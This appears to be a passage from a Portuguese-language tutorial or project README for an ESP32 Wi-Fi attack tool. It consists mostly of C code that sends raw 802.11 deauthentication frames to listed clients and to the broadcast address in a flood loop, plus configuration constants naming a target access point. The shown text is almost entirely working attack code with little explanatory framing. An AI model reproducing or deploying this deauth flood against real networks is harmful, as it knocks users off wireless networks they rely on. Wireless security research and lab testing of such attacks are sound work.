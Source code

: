 #### 3.2 Envio de Frames Maliciosos
```c
void send_deauth_frame(uint8_t *target_mac) {
    uint8_t deauth_frame[26];
    
    create_deauth_frame(deauth_frame, target_mac, ap_bssid);
    
    // Enviar frame raw 802.11
    esp_wifi_80211_tx(WIFI_IF_STA, deauth_frame, sizeof(deauth_frame), false);
    
    deauth_frames_sent++;
    ESP_LOGW(TAG, "💀 Frame deauth enviado para: " MACSTR, MAC2STR(target_mac));
}
```

#### 3.3 Loop Principal de Ataque
```c
static void deauth_flood_task(void *pvParameters) {
    while (deauth_frames_sent < MAX_DEAUTH_FRAMES && keep_attacking) {
        // Atacar todos os clientes conhecidos
        for (int i = 0; i < connected_clients; i++) {
            send_deauth_frame(client_list[i].mac);
            vTaskDelay(pdMS_TO_TICKS(DEAUTH_INTERVAL_MS));
        }
        
        // Ataque broadcast (todos os clientes)
        uint8_t broadcast_mac[6] = {0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF};
        send_deauth_frame(broadcast_mac);
        
        // Mostrar estatísticas periodicamente
        if (deauth_frames_sent % 10 == 0) {
            show_deauth_stats();
        }
        
        vTaskDelay(pdMS_TO_TICKS(DEAUTH_INTERVAL_MS));
    }
}
```

## Configurações de Ataque

### 1. Parâmetros Principais
```c
#define TARGET_SSID "ESP32_AP"           // AP alvo
#define TARGET_PASS "12345678"           // Senha do AP
#define DEAUTH_INTERVAL_MS 100           // Intervalo entre frames
#define MAX_DEAUTH_FRAMES 1000           // Máximo de frames
#define BROADCAST_ATTACK true            // Ataque broadcast
#define TARGET_SPECIFIC_CLIENTS true     // Atacar clientes específicos
```
